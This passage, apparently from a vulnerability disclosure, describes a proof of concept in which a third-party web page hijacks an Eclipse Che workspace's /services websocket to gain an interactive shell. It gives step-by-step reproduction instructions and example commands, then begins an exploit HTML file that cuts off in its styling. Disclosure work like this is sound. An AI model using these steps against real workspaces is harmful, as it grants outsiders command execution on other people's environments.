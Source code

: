 ## Extended - interactive which drops to shell

The PoC is interactive and will gain shell access over the /services websocket.

Retrieve the websocket domain for the /services endpoint and type "/connect <domain>" in the PoC.

1) deploy the attached proof of concept on a third-party domain, locally (python -m http.server) or just open the .html file. 
2) browse to che.openshift.io authenticate, and open a workspace in eclipse CHE.
3) follow step 1-5 of the simple reproducer to retrieve the ingress router address.
4) open the .html page and enter the following commands in the input box:
4) type `/connect wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services`
5) type `/attach maven` to attach to a container, this only seems to work for maven/theia-ide*.
6) a third-party domain now has full shell access to the workspace
	- try to run some unix commands, ls, pwd, curl etc.

The domain can be retrieved using developer tools in chrome, started before loading the theia workspace or pressing F5, check the "Network" tab then filter on websockets to find the one connecting to /services and copy the domain name and paste into the exploit. The domain will look similar to "routecoobb1ln-<username>-che.b542.<region>.openshiftapps.com".

When the websocket is connected it'll print the message "use /attach to attach to a terminal", type "/attach maven" or use the dynamic theia-ide* in the exploit to attach the terminal to a container. If successful you'll see the message "terminal attached successfully" and "bash-4.4 /projects $", type "ls -l" or any other unix command to have it run in the server workspace.

Make sure that the third-party domain hosting the exploit code doesn't enable any x-site security features which could block the websocket connection. Sometimes it takes a few seconds for the websocket to connect. The PoC is tested in Google Chrome. 

The HTML file with interactive exploit to be hosted,

```html
<html>
<head>
	<!-- title, skeleton.css etc.. -->
	<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/skeleton/2.0.4/skeleton.min.css">
	<style>
		#header {
			text-align: center;
		}
		#output {
			border: 1px dashed #00000088;
			width: 80%;
			max-width: 700px;
			height: 60vh;
			max-height: 60vh;
			margin: auto;
			display: block;
			overflow-x: hidden;
			overflow-y: scroll;
		}
		#input {
			width: 80%;
			max-width: 700px;
			margin: auto;
			margin-top: 16px;
			display: block;
		}
		pre {
			white-space: pre-line;
			word-break: break-all;
			margin-top: 8px;
    		margin-bottom: 0;
```